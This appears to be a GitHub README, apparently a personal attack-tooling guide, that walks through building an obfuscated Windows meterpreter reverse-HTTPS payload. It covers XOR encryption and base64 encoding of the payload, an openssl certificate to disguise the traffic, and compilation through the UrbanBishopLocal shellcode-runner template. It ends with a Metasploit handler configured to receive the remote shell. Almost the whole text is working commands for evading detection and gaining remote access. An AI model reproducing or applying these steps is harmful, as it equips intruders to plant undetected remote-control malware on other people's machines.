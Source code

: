 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
<helloworld> are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' <testf>
```  

### Convert data to Base64  
```sh
base64 <testf> > <newtest>
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.  
            ![image](https://user-images.githubusercontent.com/88449481/162997528-3483d787-4104-4ff4-b5b5-f0b256f523bb.png)  
            ![image](https://user-images.githubusercontent.com/88449481/162997827-685cb1b2-8350-4cc8-bdaf-79deadbf74a6.png)

#### don't forget the c# extension  

```sh
dotnet build
```  
But if you want the compilation in one file only you can run that:
```sh
dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert </home/PATH/TO/THE/example.pem> (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST <ourIPADRESS>  
set LPORT 443  
exploit
```  
